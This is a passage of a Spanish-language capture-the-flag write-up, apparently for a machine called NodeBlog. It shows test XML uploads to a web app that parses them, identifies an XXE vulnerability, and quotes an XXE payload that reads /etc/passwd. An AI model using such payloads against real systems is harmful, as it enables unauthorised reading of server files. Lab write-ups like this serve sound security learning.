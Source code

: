 Observamos que tenemos una nueva área para subir cosas, si le hacemos click nos pedirá subir un archivo, vamos a subir un archivo de prueba para ver qué ocurre:
```
Invalid XML Example: Example DescriptionExample Markdown
```

Tal parece que es necesario subir un archivo XML. Vamos a crear un archivo XML normal para ver que hace la página:

```xml
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

Vamos a recrearlo:

```xml
<post>
<title>archivo xml</title>
<description>Description</description>
<markdown> Markdown</markdown>
</post>
```

Lo subimos a la web para ver que ocurre:

![](/imagenes/NodeBlog/node10.png)



## Explotación

Vemos que ha parseado la información que hemos puesto en el archivo XML. Esto es peligroso porque puede acontecer un XXE que es una inyección de entidad externa XML. Buscamos en la web como explotar dicha vulnerabilidad, en la página de github de [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings) tenemos bastantes para jugar.

Si encontramos a la sección de XXE, encontramos lo siguiente:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```
